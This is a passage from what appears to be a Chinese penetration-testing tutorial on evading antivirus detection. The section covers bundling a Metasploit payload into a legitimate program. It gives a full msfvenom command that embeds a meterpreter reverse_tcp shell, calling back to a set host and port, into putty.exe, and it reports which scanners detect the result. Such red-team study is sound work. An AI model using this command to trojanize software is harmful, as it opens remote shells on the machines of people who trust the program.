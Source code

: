 ## 7.3 msf自捆绑免杀(VT查杀率39/69)

操作便利★★★★

免杀效果★★

推荐指数★★

详细文章链接：[https://mp.weixin.qq.com/s/A0CZslLhCLOK_HgkHGcpEA](https://mp.weixin.qq.com/s/A0CZslLhCLOK_HgkHGcpEA)

在生成payload时可以使用捆绑功能，使用msfvenom的`-x`参数可以指定一个自定义的可执行文件作为模板,并将payload嵌入其中，`-x`后面跟对应文件路径就可以。

我这里使用一个正规的`putty.exe`作为被捆绑测试软件。

生成payload命令如下
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333  -x putty.exe  -f exe -o payload3.exe
```

测试机器运行，本地的360全家桶和火绒都能查杀该payload。

![d0a3d87c35494608c38da9fe35c63537](images/2020.02-bypass-01/2.png)
